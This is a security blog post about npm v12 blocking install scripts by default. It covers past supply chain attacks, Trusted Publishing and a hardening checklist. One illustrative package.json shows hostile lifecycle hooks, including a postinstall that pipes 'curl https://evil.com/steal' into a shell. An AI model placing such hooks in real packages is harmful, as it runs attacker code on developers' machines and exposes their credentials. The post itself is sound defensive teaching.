

--- 
title: 'How GitHub and npm Are Fighting Back Against Supply Chain Attacks — And What You Need to Do Before July 2026'
date: 2026-06-11
authors:
  name: Bilash J. Shahi
  title: Cybersecurity Professional
  picture: https://avatars.githubusercontent.com/elodvk
  url: https://purplesec.org
tags:
  - npm
  - GitHub
  - Supply Chain Security
  - Software Security
  - DevSecOps
  - Node.js
description: 'A deep dive into the npm v12 security overhaul arriving July 2026, the supply chain attacks that forced it, and a practical guide to preparing your projects — covering lifecycle script lockdown, Trusted Publishing, provenance attestations, and lessons from event-stream, colors.js, Shai-Hulud, and the chalk/debug compromise.'
image: blog/assets/npm_supply_chain.png
---

You run `npm install`. Thousands of packages cascade into your `node_modules`. You don't think about it — why would you? The ecosystem has been doing this for over a decade. Install, import, ship.

Except somewhere in that dependency tree, a `postinstall` script just exfiltrated your AWS keys. A `binding.gyp` file silently compiled and executed a native binary that's now phoning home. A package you've never heard of — four levels deep in your transitive dependencies — just injected a cryptocurrency drainer into your frontend bundle.

This is not hypothetical. This has been happening, repeatedly, at scale, throughout 2024 and 2025. And GitHub has finally decided to **break the model** that made it all possible.


## The Problem: npm's "Automatic Trust" Model

Every time you run `npm install`, npm doesn't just download code — it potentially *executes* it. The npm lifecycle hook system allows any package to define scripts that run automatically during installation:

```json
{
  "scripts": {
    "preinstall": "node malicious-payload.js",
    "install": "node-gyp rebuild",
    "postinstall": "curl https://evil.com/steal | sh"
  }
}
```

These scripts run with the **full privileges** of the user who ran `npm install`. On a developer's machine, that's typically their full user account — with access to SSH keys, cloud credentials, browser cookies, and every other secret on that system. In CI/CD, it's often worse: service accounts with deployment permissions, NPM_TOKENs, and cloud provider credentials sitting in environment variables.

For over a decade, the npm ecosystem operated on an implicit contract: *"We trust all package maintainers not to be malicious."* That contract has been shattered.

---

## A Timeline of Devastation: The Attacks That Forced Change

To understand *why* npm v12 is making such aggressive changes, you need to understand the attacks that made them inevitable. Each incident represents a distinct failure mode that the new security model is designed to close.

### Case Study 1: `event-stream` (2018) — The Patient Takeover

**What happened:** A developer named Dominic Tarr maintained `event-stream`, a popular npm package with millions of downloads. Burned out from maintaining open source for free, he handed maintainership to a seemingly helpful contributor named `right9ctrl`. This new maintainer added a dependency called `flatmap-stream`, which contained an encrypted payload specifically designed to target **Copay**, a Bitcoin wallet application.

**The payload:** The malicious code activated *only* when imported by Copay's specific build configuration. It intercepted Bitcoin wallet credentials and exfiltrated them to the attacker's server. Users of Copay who updated their app unknowingly gave their wallet keys to the attacker.

**Why it mattered:** This was the wake-up call. A single, burned-out maintainer transferring ownership to a stranger compromised a package used by millions. The attack demonstrated:

- **Transitive dependency blindness**: Most consumers of `event-stream` had no idea `flatmap-stream` was even in their dependency tree.
- **The maintainer bottleneck**: A single human being's trust decision affected millions of downstream projects.
- **Targeted payloads**: The malicious code was designed to be invisible to anyone who wasn't running Copay.

### Case Study 2: `colors.js` & `faker.js` (2022) — Protestware

**What happened:** Marak Squires, the *original* maintainer of `colors.js` (used by nearly 19,000 other packages) and `faker.js`, intentionally pushed a malicious update. The new version of `colors.js` introduced an infinite loop that printed garbage text ("LIBERTY LIBERTY LIBERTY") to the console, effectively crashing any application that used it. `faker.js` was wiped entirely.

**The motive:** Squires publicly stated this was a protest against corporations profiting from open-source software without compensating maintainers. He framed it as a demand for financial support.

**Why it mattered:** This wasn't an external attacker — it was the *trusted maintainer themselves*. It shattered the assumption that "verified maintainer = safe package" and highlighted:

- **Single-maintainer risk**: Thousands of production applications depended on one person's goodwill.
- **No rollback mechanism**: By the time npm removed the malicious versions, the damage was done.
- **The human element**: Technical controls mean nothing when the trusted insider is the threat.

### Case Study 3: XZ Utils (2024) — The Multi-Year Infiltration

**What happened:** A threat actor using the alias **"Jia Tan"** spent *over two years* building trust in the XZ Utils project — a foundational compression library used by nearly every Linux distribution. They made legitimate contributions, earned commit access, and eventually injected a sophisticated backdoor into the build process that could enable remote code execution on any system running the compromised version.

**The discovery:** A Microsoft developer named Andres Freund noticed that SSH connections were taking 500ms longer than expected. That idle curiosity led him to discover the backdoor — purely by accident — before it reached stable Linux distributions.

**Why it matters for npm:** While XZ Utils is a C library (not an npm package), the attack pattern is directly applicable to the npm ecosystem:

- **Long-game social engineering**: The attacker invested years of effort. No automated scanner would have flagged their contributions as malicious.
- **Build-time injection**: The backdoor was inserted via the build system, not the source code — exactly the kind of attack that npm lifecycle scripts enable.
- **Scale of impact**: A single compromised utility library nearly backdoored the entire Linux ecosystem.

### Case Study 4: The `debug`/`chalk` Phishing Attack (September 2025)

**What happened:** Attackers phished the maintainer of several massively popular npm packages — including `debug`, `chalk`, and `ansi-styles` — gaining control of their npm account. They then published malicious versions that contained a **crypto-drainer**: JavaScript code designed to run in browsers, intercept cryptocurrency transactions, and redirect funds to the attacker's wallets.

**The scale:** These packages collectively have **billions** of weekly downloads. The malicious versions were live for only a few hours before detection, but given the download volume, the blast radius was enormous.

**Why it mattered:**
- **Account takeover is the new attack vector**: The code itself was "published" by the legitimate maintainer account — no typosquatting, no social engineering of end users.
- **Phishing-resistant MFA**: The maintainer had MFA enabled, but the attack used a real-time phishing proxy (an "adversary-in-the-middle" toolkit) to intercept the MFA token.

### Case Study 5: Shai-Hulud — The Self-Replicating Worm (September 2025)

**What happened:** CISA issued an advisory for what they termed a **"wormable" npm supply chain attack**. The "Shai-Hulud" malware didn't just compromise one package — it was designed to **spread itself automatically**:

1. A developer installs a compromised package.
2. The `postinstall` script scans for credentials: GitHub PATs, npm tokens, AWS/GCP/Azure keys.
3. Using stolen npm tokens, it publishes malicious versions of *other* packages the developer maintains.
4. Those malicious packages infect other developers, who in turn spread it further.

**Scale:** Over 500 packages were compromised before the worm was contained. CISA's advisory explicitly called out the **lack of lifecycle script controls** as the primary enabler.

### Case Study 6: The "Phantom Gyp" Technique (2025-2026)

**What happened:** Security researchers at Snyk documented an increasingly common technique where attackers bypass traditional lifecycle script scanners by hiding malicious code not in `package.json` scripts, but in a `binding.gyp` file. When npm detects a `binding.gyp` file, it automatically triggers `node-gyp rebuild` during installation — effectively executing arbitrary native code without the attacker ever touching the `scripts` field.

**Why it's devious:** Most security scanners only inspect the `scripts` section of `package.json`. The `binding.gyp` path is a blind spot that allows malicious native code compilation to fly under the radar. npm v12 explicitly closes this gap by disabling automatic `node-gyp` builds.

---

## The Fix: npm v12's "Explicit Approval" Model

Arriving in **July 2026**, npm v12 represents the most significant architectural security change in npm's history. The core philosophy shift:

> **From:** "Everything runs automatically unless you explicitly block it."  
> **To:** "Nothing runs automatically unless you explicitly approve it."



### What Changes in npm v12

| Behavior | npm 11 (Current) | npm 12 (July 2026) |
|---|---|---|
| `preinstall` / `install` / `postinstall` scripts | ✅ Run automatically | ❌ Blocked by default |
| `node-gyp` / `binding.gyp` native builds | ✅ Run automatically | ❌ Blocked by default |
| `prepare` scripts (git/local/linked deps) | ✅ Run automatically | ❌ Blocked by default |
| Git dependencies | ✅ Resolved automatically | ❌ Require `--allow-git` |
| Remote URL dependencies | ✅ Resolved automatically | ❌ Require `--allow-remote` |

### The New Commands: `approve-scripts` and `deny-scripts`

npm v12 introduces a script approval workflow that forces developers to consciously acknowledge and authorize every dependency that wants to execute code during installation:

**Audit what's pending:**
```bash
# List all packages with unreviewed scripts (read-only, changes nothing)
npm approve-scripts --allow-scripts-pending
```

**Approve a specific package:**
```bash
# Approve a package to run its install scripts (pinned to current version)
npm approve-scripts node-sass

# Approve all currently installed packages (use with caution)
npm approve-scripts --all
```

**Deny a specific package:**
```bash
# Explicitly block a package from ever running install scripts
npm deny-scripts suspicious-package
```

**Where approvals are stored:** The allowlist is saved directly in your `package.json`:
```json
{
  "allowScripts": {
    "node-sass@9.0.0": true,
    "sharp@0.33.5": true,
    "suspicious-package": false
  }
}
```

This should be **committed to version control**, making script permissions auditable and reviewable in pull requests — the same way you'd review code changes.

### Enforcing in CI/CD Today

You don't need to wait for npm v12. Starting with **npm v11.16.0**, you can enable strict enforcement:

```bash
# In your CI pipeline
npm ci --strict-allow-scripts
```

This will **fail the build** if any dependency attempts to run an unapproved script — giving you the npm v12 security model today.

---

## Trusted Publishing & Provenance Attestation

Script lockdown is only half the story. GitHub has also rolled out **Trusted Publishing** and **provenance attestation** to create a verifiable chain of custody from source code to published package.

### What is Trusted Publishing?

Trusted Publishing replaces long-lived npm access tokens (which can be stolen) with **short-lived OIDC tokens** scoped to a specific GitHub Actions workflow. Instead of storing an `NPM_TOKEN` secret that an attacker can exfiltrate, you configure a trust relationship between your npm package and a specific GitHub repository + workflow:

1. You tell npmjs.com: *"Only my GitHub Actions workflow in `myorg/myrepo` using `release.yml` is allowed to publish."*
2. When the workflow runs, GitHub provides a short-lived OIDC token.
3. npm verifies the token against the trust configuration and allows the publish.
4. No static credentials exist to steal.

### Provenance Attestation

When you publish via Trusted Publishing, npm automatically generates a **SLSA provenance attestation** — a cryptographic signature linking the published package to:

- The exact source commit it was built from
- The CI/CD workflow that built it
- The build environment (runner, OS, etc.)
- A timestamp

**Verification:**
```bash
# Verify a package's provenance and registry signatures
npm audit signatures
```

### Setting Up Trusted Publishing (GitHub Actions)

```yaml
# .github/workflows/release.yml
name: Publish to npm
on:
  release:
    types: [created]

jobs:
  publish:
    runs-on: ubuntu-latest
    permissions:
      id-token: write  # Required for Trusted Publishing OIDC
      contents: read
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version: 24
          registry-url: 'https://registry.npmjs.org'
      - run: npm ci
      - run: npm publish
        # No NPM_TOKEN needed — authentication is via OIDC
```

Then configure the trust relationship on [npmjs.com](https://www.npmjs.com) → Package Settings → Trusted Publisher.

### Limitations (Be Honest About Them)

Provenance proves that a package was built by a specific CI/CD workflow — but it **cannot verify intent**. If an attacker compromises a maintainer's GitHub account and triggers the workflow, the resulting package will have *perfectly valid* provenance. Provenance is a valuable forensic tool, not a silver bullet.

---

## Your Action Plan: Preparing for npm v12

Here's a concrete checklist to prepare your projects before the July 2026 release:

### Immediate (Do This Week)

- [ ] **Upgrade npm**: Run `npm install -g npm@latest` to get v11.16.0+ which shows warnings for scripts that will break in v12.
- [ ] **Audit your scripts**: Run `npm approve-scripts --allow-scripts-pending` on every project to identify dependencies that rely on lifecycle scripts.
- [ ] **Review the list**: For each flagged package, decide: Is this a legitimate need (like `node-sass`, `sharp`, or `better-sqlite3` needing native compilation)? Or is it unexpected?
- [ ] **Build your allowlist**: Run `npm approve-scripts <pkg>` for legitimate packages and commit the updated `package.json`.

### Short-Term (This Month)

- [ ] **Enable strict mode in CI**: Add `--strict-allow-scripts` to your CI pipelines to catch issues before v12 makes them the default.
- [ ] **Adopt Trusted Publishing**: If you maintain npm packages, configure Trusted Publishing and remove long-lived `NPM_TOKEN` secrets from your GitHub repos.
- [ ] **Enable phishing-resistant MFA**: Switch your npm account and GitHub account to hardware security keys (WebAuthn/FIDO2). SMS and TOTP are no longer sufficient given the adversary-in-the-middle phishing attacks demonstrated against `chalk`/`debug` maintainers.

### Ongoing (Defense-in-Depth)

- [ ] **Always commit `package-lock.json`** and use `npm ci` (not `npm install`) in CI/CD.
- [ ] **Pin dependency versions**: Avoid `^` and `~` ranges for critical dependencies. Lock to exact versions.
- [ ] **Run `npm audit signatures`** periodically to verify package provenance.
- [ ] **Minimize your dependency tree**: Every transitive dependency is attack surface. Audit whether you truly need every package.
- [ ] **Use Socket.dev or Snyk**: Tools that analyze package behavior (not just known CVEs) to detect malicious patterns in new releases.

---

## The Bigger Picture

The npm ecosystem serves over **2.4 million packages** to millions of developers building everything from startup MVPs to critical government infrastructure. For over a decade, it operated on a trust model that assumed good faith from every participant. That model has been exploited so thoroughly — from `event-stream` to `Shai-Hulud` — that the only responsible path forward is to **eliminate automatic code execution from the install path entirely**.

npm v12's changes will break some workflows. Native modules that require compilation will need explicit approval. Build processes that relied on `postinstall` hooks will need adjustment. Some developers will find it inconvenient.

That inconvenience is the point. Security has always been a trade-off against convenience, and the npm ecosystem has been paying the price for choosing convenience for far too long. Every case study above — event-stream, colors.js, XZ Utils, chalk, Shai-Hulud — exploited that convenience gap.

The message from GitHub is clear: **the era of `npm install` and pray is over**.

---

## References & Further Reading

- [GitHub Blog: Preparing for npm v12 Security Changes](https://github.blog/changelog/2026-05-27-preparing-for-npm-12/)
- [Bleeping Computer: npm v12 to Block Install Scripts by Default](https://www.bleepingcomputer.com/news/security/npm-v12-will-block-install-scripts-by-default/)
- [CISA Advisory: Shai-Hulud npm Worm](https://www.cisa.gov/news-events/advisories)
- [Palo Alto Unit 42: debug/chalk Compromise Analysis](https://unit42.paloaltonetworks.com/)
- [Snyk: The Phantom Gyp Technique](https://snyk.io/blog/)
- [npm Documentation: Trusted Publishing](https://docs.npmjs.com/generating-provenance-statements)
- [Sigstore: Software Supply Chain Security](https://www.sigstore.dev/)
